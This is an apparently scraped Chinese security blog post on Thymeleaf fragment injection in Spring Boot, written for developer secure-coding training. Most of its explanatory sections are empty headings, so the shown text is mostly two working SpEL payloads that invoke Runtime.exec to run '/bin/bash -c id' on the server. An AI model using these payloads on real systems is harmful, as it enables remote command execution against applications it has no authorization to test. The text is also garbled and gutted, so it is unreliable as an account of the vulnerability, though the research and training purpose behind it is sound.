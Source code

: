 > 原文链接: https://xz.aliyun.com/t/9826 


Thymeleaf Fragment 注入漏洞复现及新姿势扩展

最近需要给研发部门的开发GG们作一场关于Java安全编码的培训，一方面后端开发使用Springboot+thymeleaf框架较多，因此通过代码示例以及漏洞演示加深理解。借此机会，又再去学习了下大佬们关于Thymeleaf这个漏洞的研究。<br>
  本文针对已有payload的执行原理和过程在代码层面进行了一些分析，找出新的注入点并阐述扩展新payload的一些方法和姿势，仅此而已。另外由于Thymeleaf 介绍文章很多，就不赘述了，部分文章和观点给我提供了很多帮助，一并附在最后，就不一一致谢了，最后感谢你们的无私奉献yyds～。

# 0x01 环境配置

无一例外，我也是参考这个[https://github.com/veracode-research/spring-view-manipulation/](https://github.com/veracode-research/spring-view-manipulation/) 搭建的，核心代码如下：

```
*`{`new java.util.Scanner(Class.forName("java.lang.Runtime").getMethod("exec",T(String[])).invoke(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),new String[]`{`"/bin/bash","-c","id"`}`).getInputStream()).next()`}`::x
```

# 0x03 关于为什么这里只能用 `__$`{`…`}`__` 而不能是 `$`{`expr`}`/$`{``{`expr`}``}``

# 0x11 环境配置(扩展）

# 0x13 Fragment 注入通用payload2

c)用$`{``{`expr`}``}` 方式：

```
*`{``{`new java.util.Scanner(Class.forName("java.lang.Runtime").getMethod("exec",T(String[])).invoke(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),new String[]`{`"/bin/bash","-c","id"`}`).getInputStream()).next()`}``}`::x
```

# 0xFF 参考文献

[1]. [https://mp.weixin.qq.com/s/-KJijVbZGo6W7gLcve9IkQ](https://mp.weixin.qq.com/s/-KJijVbZGo6W7gLcve9IkQ)<br>
[2]. [https://github.com/veracode-research/spring-view-manipulation/](https://github.com/veracode-research/spring-view-manipulation/)<br>
[3]. [https://www.thymeleaf.org/doc/tutorials/3.0/thymeleafspring.html](https://www.thymeleaf.org/doc/tutorials/3.0/thymeleafspring.html)<br>
[4]. [https://www.cnblogs.com/hetianlab/p/13679645.html](https://www.cnblogs.com/hetianlab/p/13679645.html)
